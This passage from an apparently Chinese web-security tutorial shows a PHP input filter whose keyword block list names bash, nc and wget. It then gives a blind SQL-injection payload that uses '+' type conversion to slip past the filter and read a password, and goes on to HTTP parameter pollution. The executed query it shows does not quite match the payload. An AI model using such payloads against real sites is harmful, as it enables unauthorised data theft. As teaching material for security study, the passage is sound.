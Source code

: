 <pre class="brush:plain;toolbar:false" nodeIndex="254">
<?php
class fiter{
    var $str;
    var $order;
    function sql_clean($str){
        if(is_array($str)){
            echo "<script> alert('not array!!@_@');parent.location.href='index.php'; </script>";exit;
        }
        $filter = "/ |\*|#|,|union|like|regexp|for|and|or|file|--|\||`|&|".urldecode('%09')."|".urldecode("%0a")."|".urldecode("%0b")."|".urldecode('%0c')."|".urldecode('%0d')."/i";
        if(preg_match($filter,$str)){
            echo "<script> alert('illegal character!!@_@');parent.location.href='index.php'; </script>";exit;
        }else if(strrpos($str,urldecode("%00"))){
            echo "<script> alert('illegal character!!@_@');parent.location.href='index.php'; </script>";exit;
        }
        return $this->str=$str;
    }
    function ord_clean($ord){
        $filter = " |bash|perl|nc|java|php|>|>>|wget|ftp|python|sh";
        if (preg_match("/".$filter."/i",$ord) == 1){
            return $this->order = "";
        }
        return $this->order = $ord;
    }
}
</pre>
<p nodeIndex="255"><span nodeIndex="694">这里过滤了很多关键词了，需要用到类型转换了，这里我们用+号</span></p>
<p nodeIndex="256"><span nodeIndex="695">Payload如下：</span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="257">
uname=aa'+(ascii(mid((passwd)from(1)))>0)+'1
</pre>
<p nodeIndex="258"><span nodeIndex="696">执行的SQL语句如下：</span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="259">
xxxxxx where username = 'aa'+(ascii(mid((passwd)from(users)))>0)+'1'
</pre>
<p nodeIndex="260"><span nodeIndex="697">这样就可以开始写脚本跑数据了</span></p>
<p nodeIndex="261"><span nodeIndex="698">除了＋号，其他算术操作符号也会发生类型的类型转换，例如MOD，DIV，＊，／，％，－，</span></p>
<p nodeIndex="262"><span nodeIndex="699">关于隐式类型转换的文章可以看</span><a href="http://www.freebuf.com/articles/web/8773.html" target="_self" nodeIndex="700"><span nodeIndex="701">这里</span></a></p>
<p nodeIndex="263"><span nodeIndex="702"><strong nodeIndex="703">HTTP参数污染</strong></span></p>
<p nodeIndex="264"><span nodeIndex="704">当我们传入的参数为</span></p>
<p nodeIndex="265"><a href="http://sqlinjection.com/?par1=val1&par1=val2" nodeIndex="705"><span nodeIndex="706">http://sqlinjection.com/?par1=val1&par1=val2</span></a></p>
<p nodeIndex="266"><span nodeIndex="707">进入到不同的Web Server就可能得到不同的结果，这里借鉴一下国外大佬一篇文章的总结，如下：</span></p>
<div id="RIL_IMG_23" class="RIL_IMG"><img src="/media/posts_images/2017-07-06-1810974038/23"/></div>
<p nodeIndex="268"><span nodeIndex="709">不同的web server的处理结果截然不同</span></p>
<div id="RIL_IMG_24" class="RIL_IMG"><img src="/media/posts_images/2017-07-06-1810974038/24"/></div>
<p nodeIndex="270"><span nodeIndex="711">这里也推荐一篇国外的</span><a href="http://www.blackhat.com/presentations/bh-usa-09/DZULFAKAR/BHUSA09-Dzulfakar-MySQLExploit-SLIDES.pdf" target="_self" nodeIndex="712"><span nodeIndex="713">文章</span></a></p>
